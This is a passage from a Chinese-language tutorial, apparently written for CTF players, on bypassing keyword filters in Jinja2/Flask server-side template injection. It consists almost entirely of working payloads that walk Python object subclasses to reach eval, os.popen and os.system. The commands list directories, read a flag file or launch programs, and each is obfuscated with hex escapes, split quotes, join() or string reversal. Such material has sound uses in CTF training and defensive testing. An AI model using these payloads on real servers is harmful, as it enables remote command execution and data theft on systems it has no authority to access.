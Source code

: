 等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 利用Hex编码绕过关键字

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
```

等同于：

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 利用引号绕过

我们可以利用引号来绕过对关键字的过滤。例如，过滤了flag，那么我们可以用 fl""ag 或 fl''ag 的形式来绕过：

```python
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()
```

再如：

```python
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用引号绕过。

### 利用join()函数绕过

我们可以利用join()函数来绕过关键字过滤。例如，题目过滤了flag，那么我们可以用如下方法绕过：

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
```

### 翻转[::-1]

```python
{{url_for.__globals__.os.system('calc')}}
{{url_for.__globals__['so'[::-1]].system('calc')}}
```
